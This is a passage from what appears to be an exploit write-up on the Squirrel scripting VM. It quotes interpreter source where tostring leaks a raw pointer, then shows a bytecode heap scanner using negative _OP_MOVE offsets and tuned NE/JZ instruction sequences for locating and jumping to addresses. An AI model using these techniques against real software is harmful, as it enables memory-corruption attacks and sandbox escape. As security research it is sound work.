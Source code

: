 ```CPP
    case OT_NULL:
        scsprintf(_sp(sq_rsl(5)),sq_rsl(5),_SC("null"));
        break;
    case OT_TABLE:
    case OT_USERDATA:
    case OT_INSTANCE:
        if(_delegable(o)->_delegate) {
            SQObjectPtr closure;
            if(_delegable(o)->GetMetaMethod(this, MT_TOSTRING, closure)) {
                Push(o);
                if(CallMetaMethod(closure,MT_TOSTRING,1,res)) {
                    if(sq_type(res) == OT_STRING)
                        return true;
                }
                else {
                    return false;
                }
            }
        }
    default:
        int a = sizeof(SQString);
        SQObjectPtr*  b = _array(o)->_values._vals;
        scsprintf(_sp(sq_rsl((sizeof(void*)*2)+NUMBER_MAX_CHAR)),sq_rsl((sizeof(void*)*2)+NUMBER_MAX_CHAR),_SC("(%s : 0x%p)"),GetTypeName(o),(void*)_rawval(o));
    }
    res = SQString::Create(_ss(this),_spval);
    return true;
}
```
The default case is quite interesting, since it will `print just the raw pointer value`. There is the leak. One problem remains, how do I get the instruction pointer onto the squirrel stack?! A `heap scanner` could be used to scan for a value on the stack to get the offset. My first idea was using `_OP_MOVE` with a negative `arg1` to scan the heap. A basic heap scanner would look like this:
```lua
local cmp = 0x411337421337
local cmp2 = 0
for(local i = 10; i< scan_width; i+=1){
	asm{
		_OP_MOVE: arg0: stack_addr(cmp2) arg1: -i arg2:0 arg3: 0
	}
	if(cmp == cmp2){
		asm{
			_OP_JMP: arg0: 0 arg1: i-ip_offset-stack_base-literal_offset arg2: 0 arg3: 0
		}
	}
}

```
The code above would, in theory, scan the heap `from the stack` `to the literals section` of the function, since integers with more than 4 bytes are stored as a literal. After that it would jump that offset, but the offset needs to be adjusted depending on the `stack_base, literal location and instruction pointer location`. The loop has to be enrolled, since it is still not possible to modify the instruction in runtime. I wrote some assembly code based on that, optimized for size. After many hours of fine tuning I came up with those instructions:
```
stack:
	base + 0x00: 0x411337421337

NE          a0: 1 a1:-10 a2:0x00 a3:0x00
JZ          a0: 1 a1:-10 a2:0x00 a3:0x00
NE          a0: 1 a1:-11 a2:0x00 a3:0x00
JZ          a0: 1 a1:-11 a2:0x00 a3:0x00
NE          a0: 1 a1:-12 a2:0x00 a3:0x00
JZ          a0: 1 a1:-12 a2:0x00 a3:0x00
```